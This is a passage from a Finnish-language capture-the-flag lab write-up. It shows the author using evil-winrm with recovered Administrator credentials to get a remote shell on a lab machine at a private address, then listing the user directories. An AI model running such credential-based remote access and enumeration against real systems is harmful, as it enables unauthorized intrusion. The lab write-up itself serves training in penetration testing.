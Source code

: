 Nähdään suoraan jo help sivulta, että käytämme nyt lippuja `-i -u -p`, jolla asetetaan
ip, käyttäjä ja salasana.

```bash
$ evil-winrm -i 10.129.186.74 -u Administrator -p badminton

Evil-WinRM shell v3.7
...snip...
Info: Establishing connection to remote endpoint
```

Käyn nyt systemaattisesti jokaisen hakemiston läpi, jossa tarkastelen niiden
sisältöä.
```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---        10/11/2020   7:19 AM                3D Objects
d-r---        10/11/2020   7:19 AM                Contacts
d-r---          3/9/2022   5:34 PM                Desktop
d-r---         3/10/2022   4:51 AM                Documents
d-r---        10/11/2020   7:19 AM                Downloads
d-r---        10/11/2020   7:19 AM                Favorites
d-r---        10/11/2020   7:19 AM                Links
d-r---        10/11/2020   7:19 AM                Music
d-r---         4/27/2020   6:01 AM                OneDrive
d-r---        10/11/2020   7:19 AM                Pictures
d-r---        10/11/2020   7:19 AM                Saved Games
d-r---        10/11/2020   7:19 AM                Searches
d-r---        10/11/2020   7:19 AM                Videos
```

Administrator-käyttäjän hakemistosta ei vielä mitään kiinnostavaa, kaikki hakemistot
voisi käydä vielä läpi, mutta etsitään ensin jos olisi jonkin oikean käyttäjän
hakemistoja.

```bash
*Evil-WinRM* PS C:\Users\Administrator> cd ..
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2022   5:35 PM                Administrator
d-----          3/9/2022   5:33 PM                mike
d-r---        10/10/2020  12:37 PM                Public
```
